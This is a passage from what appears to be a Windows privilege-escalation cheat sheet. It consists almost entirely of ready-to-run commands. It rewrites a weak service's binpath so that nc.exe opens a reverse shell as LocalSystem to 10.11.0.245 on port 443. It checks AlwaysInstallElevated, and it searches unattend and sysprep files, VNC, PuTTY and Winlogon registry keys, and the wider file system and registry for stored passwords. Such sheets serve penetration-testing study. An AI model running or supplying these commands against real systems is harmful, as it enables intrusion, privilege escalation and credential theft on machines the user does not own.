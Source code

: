 ```csharp
# Look for SERVICE_ALL_ACCESS in the output
accesschk.exe /accepteula -uwcqv "Authenticated Users" *

sc config [service_name] binpath= "C:\nc.exe 10.11.0.245 443 -e C:\WINDOWS\System32\cmd.exe" obj= "LocalSystem" password= ""
sc qc [service_name] (to verify!)
sc start [service_name]
```

### Find File/Folder Permissions Explicitly Set for a Given User

```csharp
icacls.exe C:\folder /findsid userName-or-*sid /t
//look for (F)ull, (M)odify, (W)rite
```

### AlwaysInstallElevated MSI

```csharp
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated & reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Stored Credentials: Windows

```csharp
c:\unattend.xml
c:\sysprep.inf
c:\sysprep\sysprep.xml
dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini

findstr /si password *.txt | *.xml | *.ini
findstr /si pass *.txt | *.xml | *.ini
dir /s *cred* == *pass* == *.conf

# Windows Autologon
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Registry
reg query HKLM /f password /t REG_SZ /s 
reg query HKCU /f password /t REG_SZ /s
```

### Unquoted Service Path
